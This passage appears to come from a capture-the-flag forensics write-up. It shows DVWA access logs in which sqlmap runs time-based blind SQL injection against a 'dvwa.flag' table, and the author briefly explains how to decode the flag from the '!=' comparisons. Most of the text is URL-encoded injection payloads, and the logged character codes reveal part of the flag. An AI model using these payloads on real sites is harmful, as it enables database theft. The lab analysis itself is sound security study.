 ```shell
172.20.0.1 - - [26/Apr/2024:17:50:52 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E317870%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1797 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:52 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E687850%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1797 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:52 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E324569%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1798 "-" "sqlmap
........
```

Here, I noticed an anomaly in the payload, specifically in cases where the attack targeted results different from expected values. From there, I filtered out the comparison fields and performed conversions, which led me to obtain the `flag`

```shell
172.20.0.1 - - [26/Apr/2024:17:50:53 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%21%3D49%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1795 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:57 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C1%2C1%29%29%21%3D68%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:01 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C2%2C1%29%29%21%3D72%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1805 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:06 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C3%2C1%29%29%21%3D123%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:08 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C4%2C1%29%29%21%3D97%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:12 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C5%2C1%29%29%21%3D110%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1805 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:16 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C6%2C1%29%29%21%3D65%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1805 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:18 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C7%2C1%29%29%21%3D49%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:24 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C8%2C1%29%29%21%3D121%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1804 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:28 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C9%2C1%29%29%21%3D122%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:29 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C10%2C1%29%29%21%3D49%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".